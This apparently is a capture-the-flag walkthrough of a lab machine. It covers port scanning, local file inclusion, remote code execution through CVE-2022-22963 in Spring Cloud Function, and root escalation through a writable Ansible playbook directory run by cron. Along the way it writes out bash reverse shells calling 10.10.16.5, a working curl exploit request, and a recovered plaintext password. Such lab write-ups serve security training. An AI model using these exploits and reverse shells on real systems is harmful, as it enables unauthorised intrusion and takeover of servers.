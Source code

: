 # Recon
```
 nmap -p- --min-rate 10000 10.10.11.204      
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-31 03:57 EEST
Stats: 0:00:26 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 79.78% done; ETC: 03:57 (0:00:07 remaining)
Stats: 0:00:26 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 80.07% done; ETC: 03:57 (0:00:06 remaining)
Nmap scan report for 10.10.11.204
Host is up (0.088s latency).
Not shown: 65327 filtered tcp ports (no-response), 206 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 33.18 seconds
```
- Upon browsing to port 8080 , we see the webpage
- Let us explore the endpoints listed in the page's top navigation bar
- The "Upload" functionality at /upload seems interesting as it has the option to upload a file
- When we try to upload a random .txt file, the page throws an error saying that only image files are allowed
- Upon successfully uploading an image file, we are provided with the option to view the uploaded image
- The "View your image" hyperlink takes us to the /show_image endpoint, which appends an img query parameter to the URL , whose value is the name of the uploaded image file
- the application reads the value of the img parameter in the URL and includes the corresponding file on the server
- if the application is not properly sanitizing the img parameter, we could craft a malicious request that includes a file outside of the intended directory- this is known as a Local File Inclusion (could include the /etc/passwd file on the remote host)
- intercept the HTTP request to the /show_image endpoint using the BurpSuite proxy, send the intercepted request to Repeater by pressing Ctrl+R and send the LFI payload in the img parameter to try to read the /etc/passwd file
- We can successfully read the contents of the /etc/passwd file in the HTTP response, thus verifying the presence of the LFI vulnerability in the web app.
- specifying the path of the /var/www/ directory, which is commonly used by web applications, we can reveal potential sub-directories
- ```
  ../../../../../../var/www
  ```
- By carefully examining the /var/www/WebApp/pom.xml file, we find that the web app is using version 3.2.2 of the Spring-Cloud-Function-Web module
- quick search about available exploits for that specific version reveals that it is vulnerable to Remote Code Execution ( RCE ), addressed in CVE-2022-22963
- to trigger the Remote Code Execution ( RCE ), we need to send a malicious POST request to the /functionRouter endpoint of the web app
-  First, we generate a Base64 -encoded Bash reverse shell payload using the following command
-  ```
   echo -n "bash -i >& /dev/tcp/10.10.16.5/1337 0>&1" | base64
   ```
- The POST request must include the following HTTP header. We paste the generated payload into the exec() function and pipe it into bash
```
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("bash
-c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi41LzEzMzcgMD4mMQ==}|{base64,-d}|{bash,-
i}")
```
- i couldnt get ashell from above so i used metasploit and fond the exploit but also couldnt get ashell
- after some search found this poc
```
curl -i -s -k -X $'POST' -H $'Host: 10.10.11.204:8080' -H $'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi41LzEzMzcgMD4mMQ==}|{base64,-d}|bash")' --data-binary $'exploit_poc' $'http://10.10.11.204:8080/functionRouter'
```
- and we got ashell as frank
- The shell can be upgraded to a TTY shell using the following commands
```
script /dev/null -c bash
export TERM=xterm
# Control + z
stty raw -echo && fg
# Press Enter (Return) twice
```
- after searching frank system we found this
```
cat /home/frank/.m2/settings.xml
```
- phil password ** DocPhillovestoInject123 **
- now switch to phill
- we found the user flag on phill home
# Privilege Escalation
- the pspy utility. We can download the pspy binary on the remote host by hosting it on our local machine using a Python HTTP server
- After letting the pspy binary run for a few minutes, we can see the following processes running as root show up every 2 minutes indicating that they are likely being run as a cronjob
- Google search reveals that ansible-parallel is a Python package that is used to execute multiple Ansible playbooks in parallel
- The /usr/local/bin/ansible-parallel binary is operating with root privileges , as indicated by the UID=0 , and executes all *.yml files found in the
/opt/automation/tasks directory, which are most likely the Ansible playbook files
- Another cronjob removes all the files from the /opt/automation/tasks directory and then copies the file /root/playbook_1.yml to /opt/automation/tasks/
- This command is likely used to replace the contents of the /opt/automation/tasks/ directory with a single file called playbook_1.yml
-  ```
   cat /opt/automation/tasks/playbook_1.yml
   ```
- This playbook is designed to check if the webapp service is running on the local machine, and if not, to start and configure it to start automatically at boot time
- check the permissions on the /opt/automation/tasks/ directory, we find that only the user root and the user group staff have read and write access
- the user phil is a member of the user group staff
- Knowing that the cronjob executes any and all .yml files inside the directory with root permissions, we can create a malicious Ansible playbook YAML file containing a task that will execute our payload, allowing us to escalate our privileges
- We create a new file called playbook_2.yml on the remote host in the /opt/automation/tasks directory
- the YAML playbook will consist of a single task that runs a shell command on the localhost host
- The shell command is a Bash reverse shell payload that will attempt to connect back to our machine
```
- hosts: localhost
 tasks:
 - name: Checking webapp service
 shell: bash -c 'bash -i >& /dev/tcp/10.10.16.5/1258 0>&1'
```
- After two minutes, when the cronjob executes, we successfully get a reverse shell as root
- 
